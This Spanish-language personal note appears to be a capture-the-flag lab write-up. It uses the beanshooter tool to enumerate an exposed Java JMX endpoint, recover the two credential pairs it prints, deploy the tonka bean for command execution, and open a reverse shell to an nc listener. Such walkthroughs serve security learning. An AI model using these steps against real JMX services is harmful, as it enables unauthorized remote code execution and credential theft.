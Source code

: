 #beanshooter #java

-------

**BeanShooter** es una herramienta orientada a _enumeración y pruebas_ sobre endpoints JMX (Java Management Extensions). En pocas palabras, ayuda a descubrir y analizar **posibles vulnerabilidades en interfaces JMX** expuestas por aplicaciones Java.
Usamos el repositorio https://github.com/qtc-de/beanshooter

---

Vamos a usar [[git clone]] para descargar el repositorio con el comando `git clone https://github.com/qtc-de/beanshooter` despues nos metemos con [[cd]] a la carpeta usando `cd beenshooter` y vamos a compilar con `mvn package`

![[Manage10.png]]

Dentro de la carpeta *beanshooter-4.1.0/target* se va a crear el ejecutable asi que vamos a abrirlo y que nos enumere poniendo la ip de la maquina victima y el puerto `java -jar beanshooter-4.1.0-jar-with-dependencies.jar enum 10.129.234.57 2222`

![[Manage11.png]]

![[Manage12.png]]
Nos da estas dos credenciales

```
manager:fhErvo2r9wuTEYiYgt
admin:onyRPCkaG4iX72BrRtKgbszd
```


### Antes de ejecutar la parte de tonka 

Esto lo hice por que me aparecia un error que no tenia el  archivo tonka-bean-4.1.0-jar-with-dependencies.jar
Asi que fui a */beanshooter-4.1.0/tonka-bean/target* y ahi ejecute el comando `mvn package`

![[Manage13.png]]

Ahora esto para ejecutar el tonka y que a posteriori podamos obtener la shell `java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.129.234.57 2222 tonka`
![[Manage14.png]]

Ejecutamos el comando que nos va a dar una shell `java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka shell 10.129.234.57 2222`
![[Manage15.png]]
y ahora vamos a enviarnos una [[Reverse shell]] con una bash para trabajar mas comodos mientras estamos en escucha con [[nc -nlvp 443]]

![[Manage16.png]]
![[Manage17.png]]
